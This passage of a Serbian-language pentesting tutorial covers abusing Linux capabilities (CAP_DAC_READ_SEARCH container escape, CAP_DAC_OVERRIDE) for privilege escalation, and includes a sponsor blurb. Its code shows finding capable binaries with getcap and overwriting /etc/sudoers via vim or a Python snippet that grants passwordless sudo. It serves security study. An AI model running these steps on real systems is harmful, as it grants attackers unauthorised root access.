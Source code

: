 {% hint style="warning" %}
Eksploatacija mora pronaći pokazivač na nešto montirano na hostu. Originalna eksploatacija koristi datoteku /.dockerinit, a ova izmenjena verzija koristi /etc/hostname. Ako eksploatacija ne radi, možda trebate postaviti drugu datoteku. Da biste pronašli datoteku koja je montirana na hostu, jednostavno izvršite naredbu mount:
{% endhint %}

![](<../../.gitbook/assets/image (407) (1).png>)

**Kod ove tehnike je kopiran iz laboratorije "Zloupotreba mogućnosti DAC\_READ\_SEARCH" sa** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)

​

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​​​​​​[**RootedCON**](https://www.rootedcon.com/) je najrelevantniji događaj u oblasti sajber bezbednosti u **Španiji** i jedan od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je ključno mesto susreta tehnoloških i sajber bezbednosnih stručnjaka u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

## CAP\_DAC\_OVERRIDE

**Ovo znači da možete zaobići provere dozvola za pisanje na bilo kojoj datoteci, tako da možete pisati bilo koju datoteku.**

Postoji mnogo datoteka koje možete **prepisati da biste povećali privilegije,** [**možete dobiti ideje ovde**](payloads-to-execute.md#overwriting-a-file-to-escalate-privileges).

**Primer sa binarnom datotekom**

U ovom primeru, vim ima ovu mogućnost, tako da možete izmeniti bilo koju datoteku poput _passwd_, _sudoers_ ili _shadow_:

```bash
getcap -r / 2>/dev/null
/usr/bin/vim = cap_dac_override+ep

vim /etc/sudoers #To overwrite it
```

**Primer sa binarnim brojem 2**

U ovom primeru, binarni broj **`python`** će imati ovu sposobnost. Možete koristiti python da prepišete bilo koji fajl:

```python
file=open("/etc/sudoers","a")
file.write("yourusername ALL=(ALL) NOPASSWD:ALL")
file.close()
```
